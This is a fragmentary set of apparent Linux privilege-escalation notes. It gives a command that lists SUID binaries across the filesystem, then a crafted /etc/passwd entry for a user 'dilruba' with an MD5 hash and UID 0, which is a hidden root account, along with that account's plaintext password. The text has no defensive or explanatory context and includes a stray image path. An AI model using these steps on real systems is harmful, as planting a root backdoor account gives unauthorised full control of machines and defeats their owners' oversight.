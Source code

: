 SHOWING SUID

find / -perm -u=s -type f 2>/dev/null


dilruba:$1$dilruba$NePiGtLjL7dBUVToIGRJA1:0:0

passwd----dil1123

